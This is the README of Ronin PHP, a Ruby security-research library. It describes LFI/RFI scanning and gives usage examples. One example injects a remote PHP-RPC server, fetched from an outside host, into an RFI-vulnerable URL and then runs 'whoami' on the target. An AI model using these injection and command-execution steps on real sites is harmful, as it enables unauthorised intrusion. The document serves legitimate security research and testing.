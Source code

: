 # Ronin PHP

* http://ronin.rubyforge.org/php/
* http://github.com/postmodern/ronin-php
* http://github.com/postmodern/ronin-php/issues
* http://groups.google.com/group/ronin-ruby
* irc.freenode.net #ronin

## DESCRIPTION:

Ronin PHP is a Ruby library for Ronin that provides support for PHP
related security tasks.

Ronin is a Ruby platform for exploit development and security research.
Ronin allows for the rapid development and distribution of code, exploits
or payloads over many common Source-Code-Management (SCM) systems.

### Ruby

Ronin's Ruby environment allows security researchers to leverage Ruby with
ease. The Ruby environment contains a multitude of convenience methods
for working with data in Ruby, a Ruby Object Database, a customized Ruby
Console and an extendable command-line interface.

### Extend

Ronin's more specialized features are provided by additional Ronin
libraries, which users can choose to install. These libraries can allow
one to write and run Exploits and Payloads, scan for PHP vulnerabilities,
perform Google Dorks  or run 3rd party scanners.

### Publish

Ronin allows users to publish and share code, exploits, payloads or other
data via Overlays. Overlays are directories of code and data that can be
hosted on any SVN, Hg, Git or Rsync server. Ronin makes it easy to create,
install or update Overlays.

## FEATURES:

* Provides tests for Location File Inclusion (LFI) and Remote File
  Inclusion (RFI) that are built into the URI::HTTP class.
* Allows for effortless finger-printing of a web-server using LFI.
* Provides a PHP-RPC client and server that are designed to work in hostile
  environments.
* Provides an AJAX PHP-RPC Console.

## SYNOPSIS:

Start the Ronin console with Ronin PHP preloaded:

    $ ronin-php

## EXAMPLES:

Test for Remote File Inclusion (RFI):

    require 'ronin/php/rfi'

    url = URI('http://www.example.com/page.php?lang=en')
    url.has_rfi?
    # => true

Get the first viable RFI vulnerability:

    url.first_rfi
    # => #<Ronin::PHP::RFI: ...>

Scan a URL for RFI vulnerabilities:

    url.rfi_scan
    # => [#<Ronin::PHP::RFI: ...>, ...]

Inject a PHP-RPC Server into a RFI vulnerable URL:

    require 'ronin/rpc/php'

    client = url.rfi.rpc
    client.exec('whoami')
    # => "www-data"

Get a direct URL to the AJAX interface of the PHP-RPC Server:

    client.url
    # => "http://www.example.com/page.php?en=http://ronin.rubyforge.org/static/ronin/php/rpc/server.min.php?"

Test for Local File Inclusion (LFI):

    require 'ronin/php/lfi'

    url = URI('http://www.example.com/site.php?page=home')
    url.has_lfi?
    # => true

Get the first viable LFI vulnerability:

    url.first_lfi
    # => #<Ronin::PHP::LFI: ...>

Scan a URL for LFI vulnerabilities:

    url.lfi_scan
    # => [#<Ronin::PHP::LFI: ...>, ...]

## REQUIREMENTS:

* cssmin >= 1.0.2
* jsmin >= 1.0.1
* [ronin](http://ronin.rubyforge.org/) >= 0.4.0
* [ronin-gen](http://ronin.rubyforge.org/) >= 0.3.0
* [ronin-web](http://ronin.rubyforge.org/web/) >= 0.2.2
* [ronin-exploits](http://ronin.rubyforge.org/exploits/) >= 0.3.2

## INSTALL:

    $ sudo gem install ronin-php

## LICENSE:

Ronin PHP - A Ruby library for Ronin that provides support for PHP
related security tasks.

Copyright (c) 2007-2010 Hal Brodigan (postmodern.mod3 at gmail.com)

This program is free software; you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation; either version 2 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

You should have received a copy of the GNU General Public License
along with this program; if not, write to the Free Software
Foundation, Inc., 51 Franklin St, Fifth Floor, Boston, MA  02110-1301  USA
